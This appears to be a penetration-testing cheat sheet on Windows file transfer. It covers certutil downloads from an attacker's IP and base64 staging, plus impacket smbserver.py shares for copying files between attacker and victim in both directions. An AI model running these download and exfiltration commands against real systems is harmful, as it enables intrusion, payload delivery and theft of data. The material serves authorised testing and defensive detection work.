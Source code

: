 # Windows File Transfer

## certutil.exe

Certutil is like the Linux wget. However, the Antimalware Scan Interface (AMSI) currently detects this as a malicious use of certutil.

```shell
# The -urlcache is optional, it is to see the status of the download:
certutil -urlcache -verifyctl -f -split http://<IP>:<PORT>/<FILE> <RENAME FILE>
# Copy&Paste Base64
certutil -encode <FILE> payload.b64
certutil -decode payload.b64 <RENAME FILE>
```

### References

* [https://lolbas-project.github.io/lolbas/Binaries/Certutil/](https://lolbas-project.github.io/lolbas/Binaries/Certutil/)

## smbserver.py

{% tabs %}
{% tab title="Method 1" %}
### Method 1 (shared resource without authentication)

```shell
# We go to the directory we want to share:
smbserver.py smbFolder $(pwd)
smbserver.py smbFolder $(pwd) -smb2support # For Windows 10 support.
dir \\<IP>\smbFolder # Check if the files are displayed. If not, try method 2 below.
copy \\<IP>\smbFolder\<FILE> <PATH>\<FILE> # Attacking machine -> Victim machine
copy \path\to\file \\<IP>\smbFolder\<RENAME FILE> # Victim machine -> Attacking machine
```
{% endtab %}

{% tab title="Method 2" %}
### Method 2 (shared resource with authentication)

```shell
# We go to the directory we want to share:
smbserver.py smbFolder $(pwd) -username levi -password levi123
smbserver.py smbFolder $(pwd) -username levi -password levi123 -smb2support # For Windows 10 support.
# There are 2 ways to authenticate here.
# We can create a logical drive or simply authenticate with the share:

# 1st form (without creating the logical unit):
net use \\<IP>\smbFolder /u:levi levi123 # To list the contents, we do: dir \\<IP>\smbFolder
copy \\<IP>\smbFolder\<FILE> <PATH>\<FILE> # Attacker machine -> Victim machine
copy <FILE> \\<IP>\smbFolder\<RENAME FILE> # Victim machine -> Attacker machine

# 2nd form (creating the logical unit):
net use x: \\<IP>\smbFolder /u:levi levi123 # To list the contents, we do: dir x:\
copy x:\<FILE> <PATH>/<RENAME FILE> # Attacker machine -> Victim machine
copy <FILE> x:\<RENAME FILE> # Victim machine -> Attacker machine
net use /delete x: # To delete the logical unit we created.
```
